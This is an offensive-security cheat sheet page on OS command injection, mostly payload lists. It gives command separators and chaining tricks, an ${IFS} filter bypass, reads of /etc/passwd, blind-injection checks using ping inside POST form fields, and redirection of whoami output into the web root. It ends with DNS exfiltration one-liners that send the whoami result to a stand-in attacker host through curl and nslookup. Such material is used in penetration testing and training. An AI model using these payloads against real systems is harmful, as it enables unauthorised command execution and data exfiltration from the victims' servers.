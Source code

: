 ```yaml
---
title: "Command Injection"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```

## Basic Command injection
- Command Injection/Execution :
```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful
0x0a or \n #Newline 

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

- Detecting blind OS command injection :
```sh
& ping -c 10 127.0.0.1 &
#Request Post :
name=dede&email=test%40gmail.com||+ping+-c+10+127.0.0.1+||&subject=dede&message=deeeeeeeeeeee
```

`Don't forget to try every possibilities !`

- Output redirection: 
```sh
name=test&email=||whoami>/var/www/images/output.txt||&subject=test&message=test
```

## RCE - Exfiltrating via DNS

```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
```